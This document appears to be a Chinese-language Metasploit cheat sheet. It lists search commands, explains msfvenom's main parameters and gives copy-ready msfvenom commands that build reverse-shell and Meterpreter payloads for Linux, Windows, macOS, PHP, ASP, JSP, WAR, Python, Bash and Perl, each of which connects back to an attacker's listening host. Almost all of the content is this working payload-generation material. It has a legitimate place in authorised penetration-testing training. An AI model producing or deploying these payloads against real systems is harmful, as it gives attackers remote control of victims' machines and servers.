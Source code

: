 `search xx`

`search type:exploit platform:linux`

show options

info





### msfvenom

```shell
主要参数：
-p payload
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
使用msfvenom -l 可以查看可以利用payload
msfvenom -l | grep windows | grep x64 | grep tcp  选择payload
```

#### 生成可执行文件

```shell
Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
Mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
WAR:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
Python:
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
Bash:
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
Perl:
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
